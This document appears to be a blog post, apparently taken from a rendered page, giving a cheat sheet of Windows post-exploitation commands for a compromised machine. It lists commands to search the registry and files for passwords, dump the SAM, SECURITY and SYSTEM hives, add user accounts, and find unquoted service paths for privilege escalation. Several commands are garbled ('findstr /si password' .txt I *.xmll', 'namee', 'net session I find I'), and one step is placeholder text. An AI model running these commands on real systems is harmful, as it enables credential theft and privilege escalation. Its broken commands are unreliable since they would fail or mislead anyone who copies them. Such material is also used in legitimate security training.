 ```yaml
---
layout: post
published: true
title: Windows Post Exploitation 12.1
tags:
  - PWP
  - Intermediate
  - Windows Post Exploitation
comments: true
---
```

## Windows Post Enumeration

## Introduction

In this blog post, we will learn about manual post enumeration techniques to gather information about the compromised target in order to Escalate Privileges, Data Exfiltration, Persistent Access.




After compromising a device and having system-level access, Now we will gather more information about the target system to get the big scope and escalate our privileges.

The very first command to execute

To get system information
~~~
systeminfo
~~~

To get system information remotely
~~~
systeminfo /S <targetIp> /U <domain>\<user> /P <Password>
~~~

To list current user, sid, groups the current user is a member of and their sids as well as current privilege level.
~~~
whoami /all
~~~

To get OS Version
```
ver
```

To show processes and services in system.
~~~
tasklist /svc
~~~

To show all processes & DLLs
~~~
tasklist /m
~~~

To remote process listing
~~~
tasklist /S ip /v
~~~


To show all environmental variables.
```
set  
```
To look for specific USERDOMAIN, USERNAME, USERPROFILE, HOMEPATH, LOGONSERVER, COMPUTERNAME, APPDATA, and ALLUSERPROFILE, use `set` with them.
```
set USERPROFILE
```

To show services of system

```
sc query state=all
```
```
net start
```
To search the registry for passwords/or any string
```
reg query HKLM /f password /t REG SZ /s
```

To list all the currently scheduled tasks that your current user has access to see.
```
schtasks
```

To get more information about a service

~~~
sc getkeyname <service name>                   //It will give you a key
sc queryex <keyname>
~~~


To get all information about the workstation

```
net config workstation
```

To display hosts in the current domain
```
net view /domain
```

To list all users in the current domain
```
net user /domain
```

To add a user

```
net user username password /add
```

To add a user in Administrators
```
Add user to Administrators
```

To check network configurations of the system
```
ipconfig /all
```

To display local DNS Cache
```
ipconfig /displaydns
```
To know the listening ports of the system

```
netstat -ani findstr LISTENING
```

To list all open connections
```
netstat -ana
```

To prints the password policy for the domain
```
net accounts /domain
```
To print the members of Administrators local group
```
net localgroup administrators
```

To find active SMB session
```
net session I find I "\\"
```

To search files for the password string

```
findstr /si password' .txt I *.xmll *.xls
``` 

To display Domain and DC info
```
wmic ntdomain list
```
To search for services with unquoted paths to binary

```
wmic service get namee,displayname,pathnamee,startmode | findstr /i "auto" | findstr /i /v "C:\windows\\" | findstr /i /v """
```

For finding other networks and static routes that have been put in place
```
route print
```

To find the file match with the search string
```
dir \ /s /b | find /I “searchstring
```

**WMI commands**

* wmic bios
* wmic qfe
* wmic qfe get hotfixid (This gets patches IDs)
* wmic startup
* wmic service
* wmic os
* wmic process get caption,executablepath,commandline
* wmic process call create “process_name” (executes a program)
* wmic process where name=”process_name” call terminate (terminates program)
* wmic logicaldisk where drivetype=3 get name, freespace, systemname, filesystem, size,
* volumeserialnumber (hard drive information)
* wmic useraccount (usernames, sid, and various security related goodies)
* wmic useraccount get /ALL
* wmic share get /ALL (you can use ? for gets help ! )
* wmic startup list full (this can be a huge list!!!)
* wmic /node:"hostname" bios get serialnumber (this can be great for finding warranty info about the target)

**Reg Command**

* reg save HKLM\Security security.hive (Save security hive to a file)
* reg save HKLM\System system.hive (Save system hive to a file)
* reg save HKLM\SAM sam.hive (Save sam to a file)=
* reg add [\\TargetIPaddr\] [RegDomain][ \Key ]
* reg export [RegDomain]\[Key] [FileName]
* reg import [FileName ]
* reg query [\\TargetIPaddr\] [RegDomain]\[ Key ] /v [Valuename!] (you can to add /s for recurse all values )


## Conclusion

**_We have discussed some commands to gather information about the compromised target and the techniques to post emumeration_**
























